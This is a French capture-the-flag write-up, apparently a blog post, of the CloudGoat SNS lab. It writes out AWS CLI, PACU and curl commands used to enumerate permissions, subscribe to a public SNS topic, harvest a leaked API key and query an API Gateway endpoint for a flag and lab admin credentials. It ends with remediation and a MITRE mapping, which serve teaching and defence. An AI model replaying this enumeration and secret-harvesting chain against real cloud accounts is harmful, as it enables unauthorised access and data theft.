




Un topic SNS public qui broadcast une API key en clair à tous ses abonnés. C'est le scénario. Et honnêtement, au départ, on n'imagine pas que ça puisse être aussi simple.

Ce qu'on apprend ici : comment une mauvaise configuration SNS + un secret mal géré peuvent exposer une API entière, sans exploit technique sophistiqué.

---

## Le point de départ

CloudGoat fournit des credentials pour un user IAM appelé `cg-sns-user`. Pas de context supplémentaire. On part de là.

```bash
aws configure --profile snus
aws sts get-caller-identity --profile snus
```

```json
{
  "UserId": "AIDAWOH3NR54Y6LKBCIKG",
  "Account": "442908905337",
  "Arn": "arn:aws:iam::442908905337:user/cg-sns-user-cgid6dqv8sye8l"
}
```

On sait qui on est. La suite logique : savoir ce qu'on peut faire.

---

## Énumération : 11 permissions, une piste claire

Première tentative avec le CLI :

```bash
aws iam list-attached-user-policies --user-name cg-sns-user-cgid6dqv8sye8l --profile snus
```

Résultat : liste vide. Pas de policies attachées directement. On passe sur PACU pour une énumération complète.

```
run iam__enum_permissions
whoami
```

11 permissions confirmées. Les plus intéressantes :

- `sns:listtopics`, `sns:subscribe`, `sns:receive`, `sns:gettopicattributes`, `sns:listsubscriptionsbytopic`
- `apigateway:get` (avec des Deny explicites sur certaines ressources)
- Quelques droits IAM en lecture

Deux services ressortent clairement : SNS et API Gateway. Le scénario commence à prendre forme.

---

## Phase attaque

### Étape 1 : énumérer les topics SNS

```
run sns__enum --regions us-east-1
```

Un seul topic trouvé : `public-topic-cgid6dqv8sye8l`. Zéro subscriber.

> **Leçon :** un topic public sans subscribers actifs n'est pas forcément inoffensif. Il peut broadcaster des données sensibles à quiconque s'abonne. La question c'est : qu'est-ce qu'il envoie ?

### Étape 2 : s'abonner au topic

On a `sns:subscribe`. On s'en sert.

Premier essai raté :

```bash
aws sns subscribe --topic-arn arn:aws:sns:... --protocol email \
  --endpoint *****@*****.*** --profile snus
```

```
Error: --endpoint-url "*****@*****.***": scheme is missing
```

Le CLI interprète `--endpoint` comme un paramètre global AWS (l'URL de l'endpoint de service). Le bon flag pour SNS c'est `--notification-endpoint`.

```bash
aws sns subscribe \
  --topic-arn arn:aws:sns:us-east-1:442908905337:public-topic-cgid6dqv8sye8l \
  --protocol email \
  --notification-endpoint *****@*****.*** \
  --profile snus
```

```json
{ "SubscriptionArn": "pending confirmation" }
```

Confirmation reçue par mail. Abonnement validé.





### Étape 3 : énumérer l'API Gateway

```
run apigateway__enum --regions us-east-1
```

PACU remonte des AccessDeniedException (attendus vu les Deny dans la policy), mais les messages d'erreur eux-mêmes sont bavards :

```
Failed to get API keys: AccessDeniedException [...] arn:aws:apigateway:us-east-1::/apikeys
AccessDeniedException [...] restapis/jskeibchzk/resources/etsxeo/methods/GET
```

Deux infos récupérées malgré les Deny : le REST API ID `jskeibchzk` et une resource ID `etsxeo`. Pas besoin d'accès complet pour fuiter des identifiants utiles.

> **Leçon :** les messages d'erreur AWS sont souvent trop verbeux. Un Deny explicite sur une ressource confirme son existence et révèle son ARN complet.

### Étape 4 : trouver le stage et le path

On reconstruit l'URL API Gateway :

```
https://{api-id}.execute-api.{region}.amazonaws.com/{stage}/{resource}
```

Le stage, on ne le connaît pas. Tentatives en aveugle :

```bash
curl https://jskeibchzk.execute-api.us-east-1.amazonaws.com/prod/user-data
# {"message":"Forbidden"}

curl https://jskeibchzk.execute-api.us-east-1.amazonaws.com/dev/user-data
# {"message":"Forbidden"}
```

On change d'approche :

```bash
aws apigateway get-stages --rest-api-id jskeibchzk --profile snus
```

Stage trouvé : `prod-cgid6dqv8sye8l`. Et pour le path :

```bash
aws apigateway get-resources --rest-api-id jskeibchzk --profile snus
```

La resource `etsxeo` correspond au path `/user-data`. On tente :

```bash
curl https://jskeibchzk.execute-api.us-east-1.amazonaws.com/prod-cgid6dqv8sye8l/user-data
# {"message":"Missing Authentication Token"}
```

"Missing Authentication Token" c'est différent de "Forbidden". L'endpoint existe. Il attend juste une clé.

### Étape 5 : récupérer la clé depuis SNS

En vérifiant la boîte mail : un message AWS Notification avec le contenu suivant.



```
DEBUG: API GATEWAY KEY IYJIxPe3zSjbH4Bs3GxV9V0SvZOv4x59rEaZ97Ua
```

Le topic broadcastait une API key à des fins de debug. Directement dans les mails de notification. À tous les abonnés.

> **Leçon :** broadcaster des secrets dans SNS, même "pour le debug", c'est les exposer à n'importe qui ayant le droit de s'abonner. SNS n'est pas un gestionnaire de secrets.

On essaie avec cette clé :

```bash
curl -H "x-api-key: IYJIxPe3zSjbH4Bs3GxV9V0SvZOv4x59rEaZ97Ua" \
  https://jskeibchzk.execute-api.us-east-1.amazonaws.com/prod-cgid6dqv8sye8l/user-data
# {"message":"Forbidden"}
```

Toujours Forbidden. La clé ne fonctionne pas.

On vérifie les usage plans pour comprendre pourquoi :

```bash
aws apigateway get-usage-plan-keys --usage-plan-id 98livr --profile snus
```

```json
{
  "value": "lYJIxPe3zSjbH4Bs3GxV9V0SvZOv4x59rEaZ97Ua",
  "name": "cg-api-key-cgid6dqv8sye8l"
}
```

Comparaison des deux clés :
- SNS : `IYJIxPe3zSjbH4Bs3GxV9V0SvZOv4x59rEaZ97Ua`
- Usage plan : `lYJIxPe3zSjbH4Bs3GxV9V0SvZOv4x59rEaZ97Ua`

Premier caractère : `I` (capital I) vs `l` (L minuscule). Un caractère. Visuellement quasi identiques dans la plupart des polices. Le topic SNS broadcastait une clé avec une coquille, ou une clé différente. Du coup on utilise celle du usage plan.

```bash
curl -H "x-api-key: lYJIxPe3zSjbH4Bs3GxV9V0SvZOv4x59rEaZ97Ua" \
  https://jskeibchzk.execute-api.us-east-1.amazonaws.com/prod-cgid6dqv8sye8l/user-data
```

```json
{
  "final_flag": "FLAG{SNS_S3cr3ts_ar3_FUN}",
  "message": "Access granted",
  "user_data": {
    "email": "SuperAdmin@notarealemail.com",
    "password": "p@ssw0rd123",
    "user_id": "1337",
    "username": "SuperAdmin"
  }
}
```

Flag capturé. Et en bonus : des credentials admin en clair dans la réponse.

---

## Chaîne d'attaque

Le déroulé attendu du scénario, tel que CloudGoat le conçoit :



Ce qu'on a réellement fait :

```
sns_user (credentials fournis)
  |
  |-- iam__enum_permissions (PACU)
  |     11 permissions : sns:subscribe + apigateway:get
  |
  |-- sns__enum --> 1 topic public (public-topic-cgid6dqv8sye8l)
  |
  |-- sns:subscribe (email) --> confirmation
  |
  |-- apigateway__enum --> REST API ID + resource ID via erreurs verboses
  |
  |-- get-stages + get-resources --> URL complète /prod-cgid6dqv8sye8l/user-data
  |
  |-- SNS mail --> API key en clair (DEBUG message)
  |
  |-- get-usage-plan-keys --> clé correcte (I vs l)
  |
  --> curl avec x-api-key --> FLAG + credentials SuperAdmin
```

---

## Remédiation

### Vuln 1 : topic SNS sans restriction d'abonnement

N'importe quel user AWS avec `sns:subscribe` peut s'abonner au topic et recevoir tous ses messages. La fix : restreindre la policy du topic aux ARNs autorisés.

```json
{
  "Effect": "Deny",
  "Principal": "*",
  "Action": "SNS:Subscribe",
  "Resource": "arn:aws:sns:us-east-1:442908905337:public-topic-cgid6dqv8sye8l",
  "Condition": {
    "StringNotEquals": {
      "aws:PrincipalArn": [
        "arn:aws:iam::442908905337:role/authorized-subscriber-role"
      ]
    }
  }
}
```

### Vuln 2 : secret hardcodé dans les messages SNS

L'API key transitait en clair dans les notifications du topic. SNS n'est pas conçu pour transporter des secrets. La fix : stocker les clés dans AWS Secrets Manager et les récupérer via l'API au moment voulu, jamais les diffuser en broadcast.

```bash
# Stocker la clé dans Secrets Manager
aws secretsmanager create-secret \
  --name "api-gateway-key" \
  --secret-string "lYJIxPe3zSjbH4Bs3GxV9V0SvZOv4x59rEaZ97Ua"

# La récupérer au runtime
aws secretsmanager get-secret-value --secret-id "api-gateway-key"
```

### Vuln 3 : données sensibles en clair dans la réponse API

L'endpoint `/user-data` renvoyait username, email et mot de passe en clair dans le JSON. Une API ne devrait jamais retourner de credentials. Si c'est une démo, on masque. Si c'est de la vraie data, on repense l'architecture.

---

## Bilan

| Vulnérabilité | Impact | Remédiation |
|---|---|---|
| SNS topic public sans restriction | Exfiltration de tout ce que le topic diffuse | Policy SNS avec condition sur PrincipalArn |
| API key dans les messages SNS | Compromission de l'API Gateway | AWS Secrets Manager, zéro secret dans SNS |
| Credentials en clair dans la réponse API | Compromission du compte SuperAdmin | Ne jamais retourner de credentials via une API |

Ce scénario est intéressant parce qu'il n'y a pas d'exploit technique élaboré. Pas d'injection, pas de bypass sophistiqué. Juste une succession de mauvaises décisions de configuration : un topic trop ouvert, un secret au mauvais endroit, une API trop bavarde. Chaque erreur prise isolément semble mineure. Enchaînées, elles donnent accès à un compte SuperAdmin en quelques commandes CLI.

C'est ça la réalité des incidents cloud. Pas des zero-days. Des configurations qui auraient mérité dix minutes de review supplémentaires.

---

## MITRE ATT&CK

| Technique | ID | Description |
|---|---|---|
| Valid Accounts | T1078 | Credentials fournis comme point d'entrée |
| Cloud Service Discovery | T1526 | Énumération SNS et API Gateway |
| Unsecured Credentials | T1552 | API key dans les messages SNS |
| Data from Cloud Storage | T1530 | Exfiltration via endpoint API Gateway |

La phase d'énumération des permissions au départ de ce scénario ressemble à celle de [IAM Enum Basics](/posts/writeup-iam-enum-basics/) — même pattern de credentials inconnus, même réflexe `list-attached-user-policies` pour cartographier ce qu'on peut faire.
